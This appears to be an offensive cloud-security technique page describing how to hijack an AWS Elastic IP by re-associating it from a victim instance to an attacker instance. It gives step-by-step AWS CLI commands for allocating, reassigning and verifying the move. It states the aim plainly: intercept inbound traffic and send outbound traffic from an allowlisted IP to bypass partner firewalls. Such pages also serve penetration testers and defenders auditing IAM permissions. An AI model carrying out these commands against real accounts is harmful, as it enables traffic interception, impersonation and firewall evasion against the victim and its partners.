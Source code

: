 # AWS - Elastic IP Hijack for Ingress/Egress IP Impersonation

## Summary

Abuse `ec2:AssociateAddress` (and optionally `ec2:DisassociateAddress`) to re-associate an Elastic IP (EIP) from a victim instance/ENI to an attacker instance/ENI. This redirects inbound traffic destined to the EIP to the attacker and also lets the attacker originate outbound traffic with the allowlisted public IP to bypass external partner firewalls.

## Prerequisites
- Target EIP allocation ID in the same account/VPC.
- Attacker instance/ENI you control.
- Permissions:
  - `ec2:DescribeAddresses`
  - `ec2:AssociateAddress` on the EIP allocation-id and on the attacker instance/ENI
  - `ec2:DisassociateAddress` (optional). Note: `--allow-reassociation` will auto-disassociate from the prior attachment.

## Attack

Variables

```bash
REGION=us-east-1
ATTACKER_INSTANCE=<i-attacker>
VICTIM_INSTANCE=<i-victim>
```

1) Allocate or identify the victim’s EIP (lab allocates a fresh one and attaches to victim)

```bash
ALLOC_ID=$(aws ec2 allocate-address --domain vpc --region $REGION --query AllocationId --output text)
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $VICTIM_INSTANCE --region $REGION
EIP=$(aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION --query Addresses[0].PublicIp --output text)
```

2) Verify the EIP currently resolves to the victim service (example checks for a banner)

```bash
curl -sS http://$EIP | grep -i victim
```

3) Re-associate the EIP to the attacker (auto-disassociates from victim)

```bash
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $ATTACKER_INSTANCE --allow-reassociation --region $REGION
```

4) Verify the EIP now resolves to the attacker service

```bash
sleep 5; curl -sS http://$EIP | grep -i attacker
```

Evidence (moved association):

```bash
aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION \
  --query Addresses[0].AssociationId --output text
```

## Impact
- Inbound impersonation: All traffic to the hijacked EIP is delivered to the attacker instance/ENI.
- Outbound impersonation: Attacker can initiate traffic that appears to originate from the allowlisted public IP (useful to bypass partner/external source IP filters).

